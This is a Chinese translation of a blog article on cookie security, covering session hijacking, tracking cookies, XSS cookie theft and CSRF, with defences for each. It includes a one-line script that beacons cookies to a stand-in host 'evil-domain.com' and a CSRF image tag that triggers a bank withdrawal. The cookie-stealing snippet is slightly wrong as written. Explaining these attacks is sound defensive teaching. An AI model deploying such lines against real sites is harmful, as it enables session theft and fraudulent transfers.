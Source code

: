 Cookie和安全
---
### 序

[上一篇译文](http://www.atatech.org/article/detail/13453/392)介绍了HTTP Cookie的基本知识及工作原理。但是谈到cookie就离不开安全，因此，本文继续翻译NCZ的[Cookies and security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/)，介绍cookie与网页安全的基本知识。

Cookie对网站安全影响非常大，Cookie的`domain`，`path`，`secure`选项似乎已经关注到了所有安全问题，但是网页的本质使得这个问题变得非常复杂。

### 用户登录和session劫持

cookie最常见的用法是用于记录用户登录状态。这种机制非常简单：用户访问网页，使用用户名和密码登录。如果信息有效的话，将会在下一个请求中返回用于唯一标识该用户的cookie。网站上的每个页面都会检查这个cookie值来建立登录凭证。只要cookie是完整的，用户就会被认为是刚开始登录的合法用户。大部分网站会将cookie设为session（回话）cookie，在浏览器关闭时删除，以防止无意地保持登陆状态而产生安全问题。大部分登录表单都提供了“保持登陆”功能来将session cookie变成持久cookie。即使这样，大部分系统也会将过期时间设置为1到两周来防止出现可能的安全问题。

这样的系统存在一个问题，只有一个单独的数据来验证用户身份。除此之外，cookie在互联网上的传播是明文的，在用户计算机和互联网之间的恶意用户可以通过[包嗅探](http://en.wikipedia.org/wiki/Packet_sniffing)来捕获网络流量。一旦获得了用户的登录cookie，就可以通过手动设置cookie值来模拟相同的会话。服务器不能区分原始的登陆cookie和通过包嗅探盗取的cookie，因此，恶意用户可以像用户一样正常登录。这样的攻击被称为[会话劫持-session hijacking](http://en.wikipedia.org/wiki/Session_hijacking)。有几种方法来防止使用cookie进行会话劫持。

第一种，也是最普遍的安全措施就是只通过SSL传递cookie，因为SSL会在浏览器端加密通过互联网传输的请求，仅仅通过包嗅探不能确定cookie值。银行和电商网站经常使用这种技术，因为用户会话持续时间通常很短。

另一种技术是基于用户信息（用户名，IP地址，登录时间等）随机生成一个session key（会话秘钥）。这样虽然不能禁止重用会话秘钥的可能，但是可以加大重用session秘钥的难度。

还有一种方法就是在用户执行某些被认为安全级别较高的操作，例如转账或者完成购买时重新进行用户身份验证。例如，很多站点在修改密码时会需要重新登录。

### 第三方cookie

网站页面允许引用互联网上任意地方的资源。例如，nczonline.net站点使用[YUI CSS](http://developer.yahoo.com/yui/3/cssbase/)来设置网站的页面结构，通过`<link>`标签引用了Yahoo！CDN上`yui.yahooapis.com`的文件。因为cookie的限制，查找这个CSS资源的请求不会包含`nczonline.net`的cookie。但是，`yui.yahooapis.com`可能会在请求中返回它的cookie（如果没有的话，则这是一个没有cookie的服务器）。`nczonline.net`上的页面不能访问`yui.yahooapis.com`的cookie，因为cookie的domain不同，同理`yui.yahooapis.com`上的页面也不能访问`nczonline.net`的cookie。这种情况下，`yui.yahooapis.com`会设置一个和所在页面的域不同域的第三方cookie。

在HTML中引用其他域的资源有几种方式：

    *   使用`<link>`标签来引用样式表。
    *   使用`<script>`标签来引用JavaScript文件。
    *   使用`<object>`或者`<embed>`标签来引用媒体文件。
    *   使用`<iframe>`标签来引用另一个HTML文件。

以上所有方法都会引用外部文件并返回各自的cookie。有趣的是，在这些请求里，第三方服务器会收到一个HTTP `Referer`头信息，指示正在请求资源的页面。服务器可以使用这些信息来发出一个特定的标识正在引用资源的页面的cookie。如果从其他页面加载相同的资源，cookie将会和请求一起发送，服务器可以确定访问了站点A的用户也访问了站点B。这是在线广告的通用行为。这样的cooki通常被称为跟踪cookie，因为它们的任务就是跟踪用户从一个站点到另一个站点之间的访问。虽然这实际上不是安全威胁，但是对于理解更大的安全问题的讨论非常重要。

### cookie盗取和XSS

网页能够从其他域加载JavaScript是一个非常麻烦的安全漏洞。虽然对于第三方资源的请求不会包含它们所在页面的cookie，但是脚本可以访问cookie。一个页面上的所有JavaScript被认为是在同一个域下，同一个目录下使用和该页面一样的协议运行的。这意味着从其他域加载的脚本可以通过读取`document.cookie`获取这个页面的cookie。

为了演示其危险性，假设我们从`evil-domain.com`站点引用了一段实际上非常有用的代码。然而，`evil-domain.com`上的家伙可以把code切换成下面的代码：

```
(new Image()).src = 'http://www.evil-domain.com/cookiestealer.php?cookie=' +
cookie.domain;
```

这样，这段脚本加载在我们的页面上加载时会偷偷地将我们的cookie发送回`evil-domain.com`。其他所有访问了我们站点的用户的cookie也会被发送过去。`evil-domain.com`有了我们的cookie后就可以比较轻松的实现session劫持等作恶行为。这种因为网页上的第三方脚本注入引发的攻击被称为[cross-site scripting跨站脚本攻击,简称XSS](http://en.wikipedia.org/wiki/Cross-site_scripting)

cookie盗取在不只在页面不小心引用了恶意脚本时发生，也可能因为输入过滤不够而发生。一个最简单的[例子](http://www.steve.org.uk/Hacks/XSS/simple.html)就是用户可以输入一段将会被输出到页面上的文本内容。如果这段文本包含上面一样的`<script>`代码，那么cookie就会被盗取。

防范XSS的最佳实践有两种：

    1.  不要饮用来自不信任域的JavaScript。Yahoo！，Google和AOL这样大公司的CND比较安全，从其他站点引用一定要非常谨慎。
    2.  过滤用户输入的HTML内容，或者清理输入内容。不要在没有任何过滤的情况下直接将用户的输入输出到页面上。

这也是为什么HTTP-only cookie对于标准cookie的补充实现很重要的原因。标记为HTTP-only的cookie不能被恶意脚本使用`document.cookie`访问，因此也就不能盗取cookie信息。

>   2011年，99%的浏览器和大部分网络应用框架都支持HTTP Only。详情请参考*参考资料1和2*

### CSRF(Corss-site request foregery,跨站请求伪造)

另一种使用cookie的攻击方法被称为[CSRF](http://en.wikipedia.org/wiki/Cross-site_request_forgery)。在这种类型的攻击里，攻击者让浏览器发送一个已经登录用户的请求来作恶，例如将钱转到攻击者的银行账户。CSRF可以使用上面提到的XSS方法来实现，或者使用简单的HTML来实现。

维基百科上有一个例子，有人在一个没有输入过滤的论坛上发了一条信息。这样，他可以在信息中插入一张不是图片的恶意代码，向用户的银行服务器发送取款请求，例如：

```html
<img src="http://bank.example/withdraw?account=bob&amount=100000&for=mallory">
```

如果用户登录了银行账户（`bank.example`），即cookie仍然有效的话，那么访客在查看图片时会发送取款转账的请求。银行网站会因为传送了合适的cookie值而认为请求有效，即使这个请求实际上并不是访客自己发的。

与XSS一样，输入过滤是防范CSRF攻击的重要工具。其他方法还有：

    *   任何敏感操作都需要进行确认。例如本实例中的`bank.example`不应该发出取款请求，而应该展示一个需要用户验证请求操作的确认页面。验证操作可以包含登录窗口来增强安全性。
    *   系统中验证用户敏感信息的cookie应该设置较短的过期时间。有些情况下，设置几分钟的过期时间就够了。
    *   不只通过cookie来进行验证，还可以通过`referer`和/或请求类型（POST而不是GET）来验证。

CSRF发生后很难跟踪，因此防范非常关键。

### 总结

虽然使用cookie有这么多安全问题，但只要采取合适的安全措施，还是可以避免用户和系统遭受XSS和CSRF攻击的。例如输入合法性验证可以减少站点遭攻击的次数，投入少，回报高。许多大公司都依靠cookie来标识用户。最重要的是，要了解安全问题并关注最新的攻击防范措施。

### 参考资料
1.  [OWASP HTTPONLY](https://www.owasp.org/index.php/HTTPOnly#Browsers_Supporting_HTTPOnly)
2.  [browser security](http://www.browserscope.org/?category=security)

